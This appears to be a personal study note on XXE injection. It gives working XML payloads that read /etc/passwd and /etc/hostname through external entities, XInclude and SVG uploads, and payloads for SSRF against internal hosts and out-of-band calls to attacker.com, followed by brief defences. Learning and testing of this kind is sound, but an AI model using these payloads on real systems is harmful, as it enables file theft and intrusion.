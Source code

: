 # XXE

### What is XML

* Some applications use the XML format to transmit data between the browser and the server.
* Its popularity has now declined in favor of the JSON format

**XXE Impact**

* Retrieve files
* Perform SSRF attacks

## Exploiting XXE to retrieve files

1. Introduce (or edit) a DOCTYPE element that defines an external entity containing the path to the file
2. Edit a data value in the XML that is returned in the application's response, to make use of the defined external entity.

* Note: To test systematically for XXE vulnerabilities, you will generally need to test each data node in the XML individually, by making use of your defined entity and seeing whether it appears within the response.

```
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId></stockCheck> 
```

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

## Exploiting XXE to perform SSRF attacks

* Reflected SSRF
* Bind SSRF

```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
```

## Blind XXE

### Out-of-band (OAST) techniques <a href="#detecting-blind-xxe-using-out-of-band-oast-techniques" id="detecting-blind-xxe-using-out-of-band-oast-techniques"></a>

**Detection**

* Detecting as SSRF
* Regular entities are blocked? Bypass via XML parameter entities
  * `<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://attacker.com"> %xxe; ]>`
  * This XXE payload declares an XML parameter entity called `xxe` and then uses the entity within the DTD

**Exploitation**

## Finding hidden attack surface for XXE injection

* Requests that contain data in XML format
* Requests that do not contain any XML
  * (A way to detect) It's useful add entity reference that doesn't exist to cause an error condition -> ok it's XML ...
  * XInclude attacks
    * Some applications receive client-submitted data, embed it on the server-side into an XML document, and then parse the document
    * XInclude is a part of the XML specification that allows an XML document to be built from sub-documents
    * ```
      <foo xmlns:xi="http://www.w3.org/2001/XInclude">
      <xi:include parse="text" href="file:///etc/passwd"/></foo>
      ```
  * Via file upload
    * Some common file formats use XML or contain XML subcomponents. Examples of XML-based formats are office document formats like DOCX and image formats like SVG
    * `<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>`
      * This works if it's used image processing library & support SVG images & allow external entity
  * Via modified content type
    * To do

## Defence

* Disable resolution of external entities
* Disable support for XInclude
